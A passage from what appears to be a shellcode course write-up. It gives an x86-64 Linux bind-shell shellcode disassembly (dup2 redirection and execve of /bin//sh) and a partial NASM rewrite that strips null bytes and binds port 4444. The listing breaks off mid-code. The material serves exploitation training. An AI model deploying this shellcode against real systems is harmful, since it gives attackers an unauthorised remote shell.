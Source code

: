 ```shell
  4000cc:	0f 05                	syscall 
  4000ce:	b8 2b 00 00 00       	mov    eax,0x2b
  4000d3:	48 83 ec 10          	sub    rsp,0x10
  4000d7:	48 89 e6             	mov    rsi,rsp
  4000da:	c6 44 24 ff 10       	mov    BYTE PTR [rsp-0x1],0x10
  4000df:	48 83 ec 01          	sub    rsp,0x1
  4000e3:	48 89 e2             	mov    rdx,rsp
  4000e6:	0f 05                	syscall 
  4000e8:	49 89 c1             	mov    r9,rax
  4000eb:	b8 03 00 00 00       	mov    eax,0x3
  4000f0:	0f 05                	syscall 
  4000f2:	4c 89 cf             	mov    rdi,r9
  4000f5:	b8 21 00 00 00       	mov    eax,0x21
  4000fa:	be 00 00 00 00       	mov    esi,0x0
  4000ff:	0f 05                	syscall 
  400101:	b8 21 00 00 00       	mov    eax,0x21
  400106:	be 01 00 00 00       	mov    esi,0x1
  40010b:	0f 05                	syscall 
  40010d:	b8 21 00 00 00       	mov    eax,0x21
  400112:	be 02 00 00 00       	mov    esi,0x2
  400117:	0f 05                	syscall 
  400119:	48 31 c0             	xor    rax,rax
  40011c:	50                   	push   rax
  40011d:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  400124:	2f 73 68 
  400127:	53                   	push   rbx
  400128:	48 89 e7             	mov    rdi,rsp
  40012b:	50                   	push   rax
  40012c:	48 89 e2             	mov    rdx,rsp
  40012f:	57                   	push   rdi
  400130:	48 89 e6             	mov    rsi,rsp
  400133:	48 83 c0 3b          	add    rax,0x3b
  400137:	0f 05                	syscall
```

The majority of the changes were to convert an instruction: `mov rax, 41` to 2 instructions: `xor rax, rax` and `add rax, 41` in order to remove nullbytes and preserve the functionality. So, the updated version (`bind-shellcode-course.nasm`) is the following:

```nasm
global _start

_start:

	mov al, 41
	xor rdi, rdi
	add rdi, 2
	xor rsi, rsi
	add rsi, 1
	xor rdx, rdx	
	syscall

	mov rdi, rax

	xor rax, rax

	push rax

	mov dword [rsp - 4], eax
	mov word [rsp - 6], 0x5c11
	mov byte [rsp - 8], 0x2
	sub rsp, 8

	add rax, 49
```